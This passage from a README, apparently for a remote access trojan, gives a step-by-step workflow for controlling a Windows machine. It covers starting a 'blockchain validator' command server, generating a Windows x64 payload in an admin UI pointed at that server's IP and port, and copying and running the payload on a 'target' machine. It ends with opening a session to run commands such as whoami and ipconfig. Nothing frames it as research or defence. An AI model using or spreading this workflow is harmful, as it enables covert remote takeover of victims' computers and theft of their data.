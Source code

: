 2. **Run the validator:**
   ```bash
   cd rat_full_sessions
   python blockchain_validator.py
   ```

3. **Note the IP address** displayed (e.g., `192.168.1.100:5000`)

4. **Use this address** when generating payloads in the Admin UI

---

## Complete Workflow Example

### Scenario: Control a Windows machine from Admin UI

**Step 1: Start Blockchain Validator** (on your server/admin machine)
```bash
cd rat_full_sessions
python blockchain_validator.py
# Note the IP: 192.168.1.100:5000
```

**Step 2: Access Admin UI**
- Open browser: https://3000-ijf2hhejx93q0e6zbtbk8-5b4c33bb.manusvm.computer
- Sign in with your account

**Step 3: Generate Payload**
- Click "Generate Payload"
- Select: Platform = Windows, Architecture = x64
- Enter: Blockchain Node = 192.168.1.100:5000
- Enable: Debug Mode = ON
- Click "Generate Payload"
- Download the generated `.py` file

**Step 4: Deploy to Target Windows Machine**
- Copy the downloaded `.py` file to the Windows machine
- Open Command Prompt on Windows machine
- Run: `python fsdp_payload_windows_x64_12345678.py`

**Step 5: Monitor in Admin UI**
- Go back to Admin UI dashboard
- You should see:
  - Total Targets: 1
  - Status: Online
  - Platform: Windows/x64

**Step 6: Open Session and Execute Commands**
- Click on the target in "Recent Targets"
- Click "Open Session"
- Create a terminal
- Execute commands like: `dir`, `whoami`, `ipconfig`

---

## Troubleshooting
